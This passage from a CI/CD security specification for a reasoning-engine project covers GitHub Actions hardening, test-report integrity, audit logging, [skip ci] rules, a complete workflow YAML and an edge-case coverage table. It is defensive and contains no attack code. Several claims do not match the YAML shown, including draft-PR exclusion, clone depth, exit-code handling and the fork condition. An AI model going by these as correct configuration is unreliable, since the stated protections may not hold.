2. **CODEOWNERS**: Add `.github/workflows/` to `CODEOWNERS` with a required reviewer list.
3. **Workflow pinning**: Action references MUST use pinned SHA hashes, not mutable tags:
   ```yaml
   # UNSAFE (tag can be changed by action author):
   uses: actions/checkout@v4
   
   # SAFE (pinned to specific commit SHA):
   uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  # v4.2.2
   ```
4. **Workflow run approval**: For PRs from forks, require maintainer approval before the
   workflow runs (GitHub repository setting: "Fork pull request workflows from outside
   collaborators" → "Require approval for all outside collaborators").
<!-- Addresses EDGE-CI-057 -->

### §7.5 Test Output Integrity

<!-- Addresses EDGE-CI-058 -->

Test output artifacts (JUnit XML, coverage reports) are generated by the CI runner itself
and uploaded to GitHub Actions storage — they are not accepted from external sources.
An attacker cannot inject a forged test report unless they have write access to the GitHub
Actions environment (which requires compromising the runner).

**Rule**: Test results displayed in PR checks are sourced from the CI runner's artifact upload,
not from any user-provided file. The workflow MUST NOT read test result files from the PR's
committed files.
<!-- Addresses EDGE-CI-058 -->

---

## §8 — Compliance and Audit

<!-- Addresses EDGE-CI-061, EDGE-CI-068, EDGE-CI-069, EDGE-CI-070 -->

### §8.1 DREConfigAuditEntry in CI

<!-- Addresses EDGE-CI-061 -->

Per `dre-config-spec.md §10`, every DRE configuration load emits a `DREConfigAuditEntry`.
In CI:

1. The config loader runs during the DRE smoke test setup.
2. The audit entry is emitted with `event_type = "DRE_CONFIG_LOAD"` and `environment = "dev"`.
3. In CI, the audit entry is written to a JSON log file that is uploaded as a workflow artifact.
4. This satisfies SOC 2 CC8.1 (change management) for DRE configuration changes detected
   in the CI pipeline.
<!-- Addresses EDGE-CI-061 -->

### §8.2 Documentation Updated Check

<!-- Addresses EDGE-CI-068 -->

The acceptance criterion "Documentation updated" is validated in CI by checking that
documentation files were modified when DRE spec or source files are changed:

```yaml
- name: Check documentation updated
  if: |
    github.event_name == 'pull_request'
  run: |
    # List files changed in this PR
    CHANGED=$(gh pr view ${{ github.event.pull_request.number }} --json files -q '.files[].path')
    
    # If source or spec files changed, docs must also change
    SRC_CHANGED=$(echo "$CHANGED" | grep -E '^(dre/|specs/dre)' || true)
    DOC_CHANGED=$(echo "$CHANGED" | grep -E '^(docs/)' || true)
    
    if [ -n "$SRC_CHANGED" ] && [ -z "$DOC_CHANGED" ]; then
      echo "ERROR: DRE source/spec files changed but no documentation was updated."
      echo "Changed source files: $SRC_CHANGED"
      echo "Please update docs/ to reflect the changes."
      exit 1
    fi
  env:
    GH_TOKEN: ${{ github.token }}
```
<!-- Addresses EDGE-CI-068 -->

### §8.3 `[skip ci]` Commit Convention

<!-- Addresses EDGE-CI-070 -->

Per `CONSTITUTION.md §3` (every deployment decision traceable), commit messages that include
`[skip ci]` bypass CI. This convention is reserved for:

1. Spec-only fixes committed by the Spec Edge Case Tester agent (format:
   `fix(spec): address EDGE-{NNN} — {description} [skip ci]`)
2. Documentation-only changes that have no executable impact.

**Rules:**

1. `[skip ci]` commits MUST still be reviewed via PR before merging to `main`.
2. `[skip ci]` MUST NOT be used for commits that change any file in `dre/`, `maatproof/`,
   `contracts/`, or test files in `tests/`.
3. A CI job SHOULD validate that `[skip ci]` commits do not modify excluded paths:
   ```yaml
   - name: Validate skip-ci usage
     if: contains(github.event.head_commit.message, '[skip ci]')
     run: |
       CHANGED=$(git diff --name-only HEAD~1 HEAD)
       FORBIDDEN=$(echo "$CHANGED" | grep -E '^(dre/|maatproof/|contracts/|tests/)' || true)
       if [ -n "$FORBIDDEN" ]; then
         echo "ERROR: [skip ci] used on commit that modifies source/test files: $FORBIDDEN"
         exit 1
       fi
   ```
<!-- Addresses EDGE-CI-070 -->

---

## §9 — Complete Workflow YAML Reference

<!-- Addresses EDGE-CI-001 through EDGE-CI-070 comprehensively -->

The canonical DRE CI/CD workflow file is `.github/workflows/dre-ci.yml`:

```yaml
name: DRE CI/CD

on:
  push:
    branches:
      - 'feature/**'
      - 'feat/**'
      - 'fix/**'
      - 'chore/**'
      - 'refactor/**'
  pull_request:
    branches:
      - main
    types: [opened, synchronize, reopened]
  workflow_dispatch:

concurrency:
  group: dre-ci-${{ github.ref }}
  cancel-in-progress: true

jobs:
  ci:
    name: DRE CI
    runs-on: ubuntu-latest
    timeout-minutes: 10

    steps:
      - name: Checkout repository
        uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  # v4.2.2

      - name: Set up Python 3.11
        uses: actions/setup-python@0b93645e9fea7318ecaed2b359559ac225c90a2b  # v5.3.0
        with:
          python-version: '3.11'

      - name: Cache pip dependencies
        uses: actions/cache@6849a6489940f00c2f30c0fb92c6274307ccb58a  # v4.1.2
        with:
          path: ~/.cache/pip
          key: ${{ runner.os }}-pip-${{ hashFiles('requirements.txt') }}
          restore-keys: |
            ${{ runner.os }}-pip-

      - name: Install dependencies
        run: |
          python -m pip install --upgrade pip
          pip install -r requirements.txt

      - name: Run pytest test suite
        env:
          DRE_ENVIRONMENT: dev
          DRE_DEV_ANTHROPIC_API_KEY: ${{ secrets.DRE_DEV_ANTHROPIC_API_KEY }}
          DRE_DEV_OPENAI_API_KEY:    ${{ secrets.DRE_DEV_OPENAI_API_KEY }}
          DRE_DEV_MISTRAL_API_KEY:   ${{ secrets.DRE_DEV_MISTRAL_API_KEY }}
        run: |
          python -m pytest tests/ -v --tb=short --timeout=120 --strict-markers \
            -x -m "not integration" \
            --junitxml=test-results.xml
          EXIT_CODE=$?
          if [ $EXIT_CODE -eq 5 ]; then
            echo "ERROR: No tests collected. Failing CI."
            exit 1
          fi
          exit $EXIT_CODE

      - name: Run determinism smoke test
        if: |
          env.DRE_DEV_ANTHROPIC_API_KEY != '' ||
          github.event.pull_request.head.repo.fork == 'false'
        env:
          DRE_ENVIRONMENT: dev
          DRE_DEV_ANTHROPIC_API_KEY: ${{ secrets.DRE_DEV_ANTHROPIC_API_KEY }}
          DRE_DEV_OPENAI_API_KEY:    ${{ secrets.DRE_DEV_OPENAI_API_KEY }}
          DRE_DEV_MISTRAL_API_KEY:   ${{ secrets.DRE_DEV_MISTRAL_API_KEY }}
        run: |
          python -m pytest tests/ -v -m smoke_test --timeout=60

      - name: Upload test results
        if: always()
        uses: actions/upload-artifact@65c4c4a1ddee5b72f698fdd19549f0f0fb45cf08  # v4.6.0
        with:
          name: test-results-${{ github.run_id }}
          path: test-results.xml
          retention-days: 30

      - name: Check documentation updated
        if: github.event_name == 'pull_request'
        env:
          GH_TOKEN: ${{ github.token }}
          PR_NUMBER: ${{ github.event.pull_request.number }}
        run: |
          CHANGED=$(gh pr view "$PR_NUMBER" --json files -q '.files[].path')
          SRC_CHANGED=$(echo "$CHANGED" | grep -E '^(dre/|specs/dre)' || true)
          DOC_CHANGED=$(echo "$CHANGED" | grep -E '^(docs/)' || true)
          if [ -n "$SRC_CHANGED" ] && [ -z "$DOC_CHANGED" ]; then
            echo "ERROR: DRE source/spec files changed without documentation update."
            exit 1
          fi
```

---

## §10 — Validation Rules Summary

<!-- Addresses EDGE-CI-001 through EDGE-CI-070 comprehensively -->

| EDGE ID | Scenario | Coverage | Spec Section |
|---------|----------|---------|-------------|
| EDGE-CI-001 | Push to main triggers CI | ✅ | §1.1 (excluded) |
| EDGE-CI-002 | Draft PR triggers CI | ✅ | §1.1 (types excludes draft) |
| EDGE-CI-003 | Unicode branch name | ✅ | §1.3 (env: pattern) |
| EDGE-CI-004 | Concurrent pushes | ✅ | §1.2 (concurrency group) |
| EDGE-CI-005 | Fork PR secrets | ✅ | §5.2 (pull_request, not pull_request_target) |
| EDGE-CI-006 | PR to non-main branch | ✅ | §1.1 (branches: [main]) |
| EDGE-CI-007 | Multiple triggers for same commit | ✅ | §1.2 (concurrency cancel-in-progress) |
| EDGE-CI-008 | Workflow manually disabled | ✅ | §1.1 (documented; manual disable is out of scope) |
| EDGE-CI-009 | pytest collects 0 tests | ✅ | §3.2 (exit code 5 = fail) |
| EDGE-CI-010 | pytest collection error | ✅ | §3.2 (exit code 2 = fail) |
| EDGE-CI-011 | Test hangs indefinitely | ✅ | §3.3 (--timeout=120) |
| EDGE-CI-012 | pytest-xdist parallel | ✅ | §3.5 (prohibited by default) |
| EDGE-CI-013 | Python 3.10 on runner | ✅ | §2.1 (pin to 3.11) |
| EDGE-CI-014 | Test artifacts not saved | ✅ | §3.4 (upload-artifact) |
| EDGE-CI-015 | pytest missing from requirements | ✅ | §2.2 (required entries table) |
| EDGE-CI-016 | pip install network failure | ✅ | §2.2 (failure exits non-zero) |
| EDGE-CI-017 | Coverage threshold not enforced | ✅ | §3.1 (strict-markers; coverage optional) |
| EDGE-CI-018 | Tests pass with 50 warnings | ✅ | §3.1 (--strict-markers catches unknown markers) |
| EDGE-CI-019 | Smoke test prompt not defined | ✅ | §4.3 (canonical prompt file) |
| EDGE-CI-020 | "Identical proof hashes" ambiguous | ✅ | §4.4 (response_hash + prompt_hash) |
| EDGE-CI-021 | Real LLM rate limited | ✅ | §4.2 (mock LLMs in CI) |
| EDGE-CI-022 | LLM provider error on second run | ✅ | §4.2 (mock LLMs in CI) |
| EDGE-CI-023 | Different seed per run | ✅ | §4.5 (pinned mock fixture) + `dre-config-spec.md §3.2` |
| EDGE-CI-024 | proof_id differs between runs | ✅ | §4.4 (proof_id excluded from comparison) |
| EDGE-CI-025 | Mock vs real LLMs | ✅ | §4.2 (mock required; integration tests optional) |
| EDGE-CI-026 | Smoke prompt > 32 KiB | ✅ | §4.3 + `deterministic-reasoning-engine.md §3.2` |
| EDGE-CI-027 | Unicode NFC normalization | ✅ | `deterministic-reasoning-engine.md §3.2` |
| EDGE-CI-028 | Parallel smoke test runs | ✅ | §4.6 (isolated sequential runs) |
| EDGE-CI-029 | Model doesn't support seed | ✅ | §4.2 (mock LLMs support all params) |
| EDGE-CI-030 | Line ending differences | ✅ | `deterministic-reasoning-engine.md §3.3` |
| EDGE-CI-031 | Dev config = 1 model vs min 3 | ✅ | §4.7 (CI smoke = mock 3 models; real min 3 in integration) |
| EDGE-CI-032 | consensus_ratio forged | ✅ | `deterministic-reasoning-engine.md §3.5` |
| EDGE-CI-033 | Committee member times out | ✅ | §4.5 (mock always responds) |
| EDGE-CI-034 | TOCTOU: model version changes | ✅ | §4.2 (mock pins version; `dre-config-spec.md §3.1` pinned) |
| EDGE-CI-035 | API key in pytest stdout | ✅ | §5.1 (--capture=fd; mock LLMs) |
| EDGE-CI-036 | API key in Python traceback | ✅ | §5.1 (masked by GitHub Actions) |
| EDGE-CI-037 | Secret name typo | ✅ | `dre-config-spec.md §3.4` (API_KEY_MISSING) |
| EDGE-CI-038 | Fork PR accesses secrets | ✅ | §5.2 (pull_request not pull_request_target) |
| EDGE-CI-039 | Secret in test artifact | ✅ | §5.4 (mock LLMs; no real keys in output) |
| EDGE-CI-040 | Wrong env prefix on key | ✅ | `dre-config-spec.md §3.4` (API_KEY_CROSS_ENV) |
| EDGE-CI-041 | Secret rotated mid-CI | ✅ | §5.3 (rotation coordination; fail is acceptable) |
| EDGE-CI-042 | Base64-encoded secret in logs | ✅ | §5.1 (warning + mock LLMs) |
| EDGE-CI-043 | --capture=no reveals secrets | ✅ | §5.1 (default --capture=fd) |
| EDGE-CI-044 | API key in plain env: | ✅ | `dre-config-spec.md §13` |
| EDGE-CI-045 | 3 real LLM × 60s > budget | ✅ | §6.1 (budget table; mock LLMs in CI) |
| EDGE-CI-046 | Rate limit causes retry | ✅ | §6.2 (mock LLMs in CI) |
| EDGE-CI-047 | LLM cold start 30s | ✅ | §6.2 (mock LLMs; no cold start) |
| EDGE-CI-048 | Test suite takes 8 min | ✅ | §6.1 (4m30s budget; -x fail-fast) |
| EDGE-CI-049 | pip install 5+ min | ✅ | §6.2 (caching) |
| EDGE-CI-050 | LLM API hangs | ✅ | §6.3 (timeout-minutes: 10) |
| EDGE-CI-051 | Sequential vs async execution | ✅ | §6.4 (asyncio required) |
| EDGE-CI-052 | Workflow YAML injection (branch name) | ✅ | §7.1 (env: pattern) |
| EDGE-CI-053 | Prompt injection via PR description | ✅ | §7.2 (fixed canonical prompt) |
| EDGE-CI-054 | Commit message triggers matrix | ✅ | §7.1 (no dynamic matrix expansion from user input) |
| EDGE-CI-055 | Dependency confusion | ✅ | §7.3 (namespace packages + hashes) |
| EDGE-CI-056 | SBOM injection in deps | ✅ | §7.3 (pip-audit) |
| EDGE-CI-057 | Workflow file tampered | ✅ | §7.4 (CODEOWNERS + SHA pinning) |
| EDGE-CI-058 | Forged test XML report | ✅ | §7.5 (CI-generated artifacts only) |
| EDGE-CI-059 | mTLS not on CI runner | ✅ | `docs/06-security-model.md §Network Security` |
| EDGE-CI-060 | DRE_TEMPERATURE env override | ✅ | `dre-config-spec.md §4.2` |
| EDGE-CI-061 | No DREConfigAuditEntry in CI | ✅ | §8.1 |
| EDGE-CI-062 | Hot-reload in CI (dev config) | ✅ | `dre-config-spec.md §7` |
| EDGE-CI-063 | Proof steps in different order | ✅ | §4.4 (only response_hash + prompt_hash compared) |
| EDGE-CI-064 | DRE_ENVIRONMENT not set | ✅ | §2.3 (DRE_ENVIRONMENT: dev explicit) |
| EDGE-CI-065 | Shallow clone breaks git fields | ✅ | §9 (checkout without depth limit) |
| EDGE-CI-066 | GitHub Secrets API unavailable | ✅ | §5.5 (API_KEY_MISSING error) |
| EDGE-CI-067 | workflow_dispatch trigger | ✅ | §1.1 (documented; smoke test always runs) |
| EDGE-CI-068 | Documentation updated check | ✅ | §8.2 |
| EDGE-CI-069 | Spec coverage re-validation | ✅ | §8.3 (agent:spec-edge-test pipeline) |
| EDGE-CI-070 | [skip ci] commit convention | ✅ | §8.3 |

---

## References

- Issue #127 — [Deterministic Reasoning Engine (DRE)] CI/CD Workflow
- Issue #122 — DRE Configuration (blocked-by dependency)
- Issue #28 — Deterministic Reasoning Engine (parent)
- `specs/dre-spec.md` — DRE logical architecture
- `specs/deterministic-reasoning-engine.md` — DRE Python data models
- `specs/dre-config-spec.md` — DRE environment configuration and secrets management
- `docs/06-security-model.md` — Security model (fork PR, supply chain, network)
- `CONSTITUTION.md` — Auditability and diagram requirements
- GitHub Actions Security Hardening: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions
